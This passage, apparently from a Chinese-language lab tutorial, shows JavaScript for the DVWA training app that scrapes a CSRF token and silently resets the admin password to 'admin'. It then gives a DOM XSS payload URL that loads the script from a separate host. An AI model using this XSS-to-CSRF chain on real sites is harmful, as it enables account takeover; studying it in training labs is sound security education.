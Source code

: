xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");  
  
}var count = 0;  
  
//页面加载完成后执行函数  
  
xmlhttp.onreadystatechange=function(){  
  
//判断请求已完成并且响应就绪状态码为 200 时执行代码  
  
if (xmlhttp.readyState==4 && xmlhttp.status==200)  
  
{//页面内容存储到 text 中进行匹配 token  
  
var text = xmlhttp.responseText;  
  
var regex = /user_token\' value\=\'(.*?)\' \/\>/;  
  
var match = text.match(regex);  
  
console.log(match);  
  
//弹出 token  
  
alert(match[1]);  
  
var token = match[1];  
  
//定义 payload url 并绑定 token 为我们从页面匹配到的 token 并且定义新的密码，新密码是  
  
admin  
  
var new_url = 'http://192.168.1.63/DVWAmaster/vulnerabilities/csrf/?user_token='+token+'&password_new=admin&pass  
  
word_conf=admin&Change=Change'  
  
//GET 方式提交一次 new_url  
  
if(count==0){  
  
count++;  
  
xmlhttp.open("GET",new_url,false);  
  
xmlhttp.send();  
  
} }  
  
};  
  
//GET 方式提交 theUrl  
  
xmlhttp.open("GET",theUrl,false);  
  
xmlhttp.send();  
  
  
然后构建payload  
  
192.168.0.107/DVWA-master/vulnerabilities/xss_d/?default=English#<script src="http://192.168.0.106/csrf.js"></script>  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOuqUjmsicAt17D7hwKz4AeBQZxwI2U5A9lee8tfDHxPoswJ3ljOLy1ibw/640?wx_fmt=png&from=appmsg "")  
  